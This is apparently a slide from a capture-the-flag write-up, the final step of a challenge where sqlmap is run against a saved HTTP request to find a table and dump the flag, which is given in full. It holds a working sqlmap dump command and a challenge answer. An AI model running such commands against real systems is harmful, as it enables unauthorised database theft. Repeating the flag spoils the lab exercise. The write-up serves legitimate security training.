

Final Step: Extracting the Flag with sqlmap

Launch Automated Exploitation
Identify the table
Extract the Flag
Successfully dumped the flag: HTB{Wh0_S41d_tH4t_c$$_sh0uld_b3_c0ns1d3r3d_s4Fe??!}
Executed sqlmap with targeted parameters:
Tool discovered the critical database table: flag_4154739d.
sqlmap -r req_entries.txt --dbms=sqlite --level=2 --batch --dump